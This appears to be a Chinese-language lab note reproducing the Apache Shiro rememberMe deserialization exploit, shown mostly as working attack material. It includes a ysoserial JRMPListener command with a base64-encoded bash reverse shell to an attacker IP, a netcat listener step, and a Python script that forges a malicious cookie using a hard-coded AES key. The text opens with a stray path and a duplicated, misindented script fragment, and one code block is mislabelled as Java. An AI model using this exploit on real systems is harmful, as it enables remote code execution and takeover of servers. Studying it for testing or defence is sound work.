 ```python
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
 
if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print "rememberMe={0}".format(payload.decode())
```
漏洞复现文章：<br />[https://blog.csdn.net/weixin_41598660/article/details/105748304](https://blog.csdn.net/weixin_41598660/article/details/105748304)

场景：攻击机 192.168.201.129  漏洞主机192.168.201.135

攻击者<br />java -cp ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections2 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMS4xMjkvMjIyMiAwPiYx}|{base64,-d}|{bash,-i}"<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628324869187-70b01822-9c7c-4203-a439-bef5a108ec8e.png#height=211&id=uhfMK&originHeight=211&originWidth=966&originalType=binary&ratio=1&size=153610&status=done&style=none&width=966)<br />nc监听2222端口<br />利用脚本生成jrmp+cc的cookie序列化payload<br />python shirokey.py 攻击机:jrmp监听的端口<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628324916543-6b32b208-cd6d-4f27-b859-52cbbb8fe341.png#height=118&id=IsWGF&originHeight=118&originWidth=927&originalType=binary&ratio=1&size=123836&status=done&style=none&width=927)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628324995841-674dd13b-3705-461c-b875-745498d650e9.png#height=515&id=SokUj&originHeight=1030&originWidth=1600&originalType=binary&ratio=1&size=170640&status=done&style=none&width=800)<br />获取权限。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628325023544-75ea1212-f4bd-46e3-87c3-322c269975e0.png#height=167&id=R07DS&originHeight=167&originWidth=634&originalType=binary&ratio=1&size=64752&status=done&style=none&width=634)

shirokey.py
```java
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==") #找到的key
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
    print("rememberMe={0}".format(payload.decode()))
```
